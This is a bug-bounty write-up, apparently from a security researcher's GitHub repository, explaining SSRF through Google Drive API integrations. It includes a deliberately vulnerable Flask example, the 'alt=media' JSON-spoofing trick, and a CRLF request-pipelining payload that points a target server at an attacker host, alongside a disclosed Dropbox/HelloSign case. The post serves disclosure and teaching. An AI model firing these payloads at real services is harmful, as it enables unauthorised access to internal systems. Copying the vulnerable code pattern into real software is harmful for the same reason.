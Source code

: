 # Hacking Google Drive Integrations

Have you ever observed Google Drive integrations in your bug bounty targets and wondered what else might be there besides the OAuth CSRF? Is it possible to hack this integration a step further? That's exactly what we'll explore today.

Before we go into the vulnerability, let's take a look at how Google Drive is typically integrated into applications.

There are generally three ways;

- Client side embed.
- Get CDN Url on client side and download on server side.
- Fetch the file on server side via Gdrive API.

The first two are relatively straight forward to test but the last one is where the fun lies.

To understand this, consider a simple application that retrieves and renders a selected image file from Gdrive. I realize this isn't necessary, but I'm attempting to show how things function behind the hood for the purpose of reader's understanding.

Here's the two routes responsible to list and render your google drive image file provided your access token.

```python

#List images from Gdrive

@app.route('/cloud/gdrive/list')
def list_files():
    token = request.args.get('access_token')
    html = ""
    if token:
      r = requests.get('https://www.googleapis.com/drive/v2/files/',headers={'Authorization': 'Bearer '+token})
      resp = json.loads(r.text)
      print(resp)
      for file in resp['items']:
        if file['mimeType'].startswith('image/'):
          html += "<a href='/cloud/gdrive/fetch?file_id="+file['id']+"&access_token="+token+"'>"+file['title']+"</a><br>"    
      return "Select Gdrive image (max 1mb) to fetch <br><br>" + html

    else:
      return "Error"

#Render provided image id from gdrive

@app.route('/cloud/gdrive/fetch')
def fetch_gdrive_video():
    token = request.args.get('access_token')
    file_id = request.args.get('file_id')
    if token and file_id:
      try:
        r = requests.get('https://www.googleapis.com/drive/v2/files/'+file_id,headers={'Authorization': 'Bearer '+token})
        download_url = json.loads(r.text)['downloadUrl']
        d = requests.get(download_url,headers={'Authorization': 'Bearer '+token})
      except Exception as e:
        return Response(str(e), headers={'Content-type':'text/plain'})
      return Response(d.content, headers={'Content-type':'image/png'})
    else: 
      return "Error"

```

![image](https://user-images.githubusercontent.com/21000421/147161950-04263058-f36b-4062-a061-b0b35385e407.png)

The above code should make this easier to understand - We have control in path of the HTTP request made to www.googleapis.com via the file_id. This means we can do a path traversal and add query parameters. At this point you'd want an open redirect on www.googleapis.com to do an SSRF. I didn't find one but I found another cool way. 

To recap this is what's being done on backend;

- Make a request to GDrive API for user's provided file
- Parse the JSON response of Google Drive
- Extract `downloadUrl` key's value from parsed JSON
- Make request to the download url
- Render the response

Simple, however, things will go bad if we control the JSON response to be parsed in 2nd step, as now we control the downloadUrl. There's this magic parameter "alt=media" which would serve the file itself rather than the JSON object and now if the application is relaying on parsing the JSON and extracting "downloadUrl", we have control over it.

 ![image](https://user-images.githubusercontent.com/21000421/147611203-a7fca52f-ad87-4f84-bdbd-97d74ab3e886.png)

Knowing this we can craft a file that on being requested with "alt=media" query param on this application would cause an SSRF attack.

- Create a file call it payload.txt
- Place same File JSON Object into it
- Change the downloadUrl to your URL
- Make a request with `file_id=fildId?alt=media&access_token=abcdef`
- Malicious JSON is parsed and we'll have hit on our own URL from server side. 
- Depending on the application logic this leads to blind/responsive SSRF.

### PoC 

![image](https://user-images.githubusercontent.com/21000421/147612095-d494ef14-70dc-4796-bb29-d74d4cb8dac3.png)


## Case Studies

I've discovered multiple applications vulnerable to this issue in Gdrive integrations due to either lack of sanitization / not using SDK.

Discovery on a private program was by far the finest, but the Dropbox discovery astounded me because I hadn't looked for it there in three years. It's a good reminder that bug bounty collabarotion is important. Thanks Ian.

### Private Program's Partial Read SSRF

This app's Google Drive integration allowed us to import slides from Google, fyi, doc/slides/sheets all are fetched via Drive API generally. 

```
PUT /gdrive/import/ HTTP/2
Host: redacted.com
...

{"fileId":"gdrive_file_id","fileName":"testest","authToken":"gdrive_auth_token","fileType":"slides"}
```

However, this apps's implementation only suffers from path traversal and not adding query params thus preventing the attack. As such, I had to find a way around it. It was then noted that the "authToken" property which adds its value in request headers suffers from a CRLF thus allowing us to control part of request headers/body.

Using this I was able to craft a new request to www.googleapis.com with my controlled query params using [request pipelining](https://stackoverflow.com/questions/19619124/http-pipelining-request-text-example).

Payload would be something like this;

```
PUT /gdrive/import/ HTTP/2
Host: redacted.com
...

{"fileId":"test","fileName":"test","authToken":"x\r\nSSRF:http://rce.ee/aaaaazzzzza\r\nConnection:keep-alive\r\n\r\nGET /drive/v2/files/1XfY_BqdWT-UWM2CNivW1lSR2GhRCizdJ?alt=media HTTP/1.1\r\nHost:www.googleapis.com\r\nAuthorization: Bearer REDACTEDr\n\r\n","fileType":"slides"}
```

Now we could perfrom the alt=media trick, The JSON served is our controlled response on Google drive thus giving us control on the URL. The file fetched first gets parsed as PPT, thus preventing full read access but I suspect the download file is already being stored on CDN regardless of parsing failure. Anyways, to obtain response, we simply redirect to a page which gives a 404 thus getting an exception at Java level which gets thrown in the web app. 

![image](https://user-images.githubusercontent.com/21000421/148796753-ddb57543-596c-4779-99d6-bbe4fd0efaac.png)

Note - the header "SSRF", this is basically read by my server to redirect to internal host.

I wanted to try some pptx related attack but the team was proactive and was monitoring my exploits and already had fixed in production before I woke up next day. Team's response ;)


```
While you were playing with our systems our alerting went batshit, so we were able to react pretty quickly. We deployed quick fix for the issue. Would you be so kind and validate if our quick attempt was successful?
```

### Dropbox's Full Read SSRF

I was informed by [Ian](https://twitter.com/iangcarroll) that Dropbox has Gdrive integrations in both Dropbox and HelloSign. Hellosign's integration was found to be vulnerable with this exploit. I found this bug back in 2019 and its funny I didn't look for this on Dropbox's public program until Ian told me. The bug was pretty simple as such I'm just pointing this section to the report - https://hackerone.com/reports/1406938. This led to a nice bounty of $17,576 through [Dropbox's HackerOne program](https://hackerone.com/dropbox?type=team).

![image](https://user-images.githubusercontent.com/21000421/147614291-8c6cdd59-cd13-4149-ad6d-0183e11b17f6.png)


This is a problem that affects a variety of applications. I also wanted to emphasize why it's critical to understand how things work behind the scenes. It's crucial to consider anything and think what might happen on the backend. In 2019, I looked at one of Vimeo's programs and wondered how they would get the gdrive file, making an API request? Isn't it a path traversal if it's a REST API with my input in the URL? If that's the case, there's a small chance of an SSRF with an open redirect on Google APIs and here we are.

That's all. Thanks for reading! If you enjoyed this and other articles in this repo please consider retweeting and following [HTTPVoid on Twitter](https://twitter.com/httpvoid0x2f).

Author;

Harsh, HTTPVoid
